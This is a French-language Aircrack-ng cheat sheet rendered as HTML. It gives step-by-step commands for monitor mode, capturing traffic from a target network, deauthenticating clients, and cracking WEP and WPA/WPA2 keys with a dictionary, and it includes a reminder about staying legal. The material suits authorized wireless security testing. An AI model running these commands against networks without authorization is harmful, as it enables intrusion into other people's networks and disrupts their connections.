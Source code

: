 <!DOCTYPE html []>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="author" content="MarkdownViewer++" />
    
}
  </head>
  <body>
    <h1 id="aircrack-ng-cheat-sheet">Aircrack-ng Cheat Sheet</h1>
    <h2 id="prerequis">Prérequis</h2>
    <ul>
      <li>Carte réseau supportant le mode moniteur et l'injection de paquets.</li>
      <li>Aircrack-ng installé sur votre système.</li>
    </ul>
    <h2 id="commandes-de-base">Commandes de base</h2>
    <h3 id="verifier-les-interfaces-reseau">Vérifier les interfaces réseau</h3>
    <pre>
      <code>airmon-ng
</code>
    </pre>
    <h3 id="passer-une-interface-en-mode-moniteur">Passer une interface en mode moniteur</h3>
    <pre>
      <code>airmon-ng start [interface]
</code>
    </pre>
    <h3 id="arreter-le-mode-moniteur">Arrêter le mode moniteur</h3>
    <pre>
      <code>airmon-ng stop [interface moniteur]
</code>
    </pre>
    <h3 id="lister-les-reseaux-wi-fi-disponibles">Lister les réseaux Wi-Fi disponibles</h3>
    <pre>
      <code>airodump-ng [interface moniteur]
</code>
    </pre>
    <h3 id="cibler-un-reseau-pour-la-capture">Cibler un réseau pour la capture</h3>
    <pre>
      <code>airodump-ng --bssid [BSSID du réseau] -c [canal] --write [nom du fichier de sortie] [interface moniteur]
</code>
    </pre>
    <h3 id="lancer-une-attaque-de-desauthentification">Lancer une attaque de désauthentification</h3>
    <pre>
      <code>aireplay-ng --deauth [nombre de paquets] -a [BSSID du routeur] -c [BSSID de la victime] [interface moniteur]
</code>
    </pre>
    <h3 id="craquer-une-cle-wep">Craquer une clé WEP</h3>
    <pre>
      <code>aircrack-ng -a 1 -b [BSSID du réseau] [fichier de capture]
</code>
    </pre>
    <h3 id="craquer-une-cle-wpawpa2-avec-un-fichier-de-dictionnaire">Craquer une clé WPA/WPA2 avec un fichier de dictionnaire</h3>
    <pre>
      <code>aircrack-ng -a 2 -b [BSSID du réseau] -w [chemin du fichier de dictionnaire] [fichier de capture]
</code>
    </pre>
    <h2 id="astuces">Astuces</h2>
    <ul>
      <li>Toujours utiliser Aircrack-ng dans un cadre légal. L'accès non autorisé à des réseaux est illégal.</li>
      <li>La qualité et la taille du fichier de dictionnaire peuvent grandement affecter le temps nécessaire pour craquer une clé WPA/WPA2.</li>
      <li>Pour augmenter les chances de succès lors de l'attaque de désauthentification, assurez-vous d'être physiquement proche du réseau cible.</li>
    </ul>
  </body>
</html>
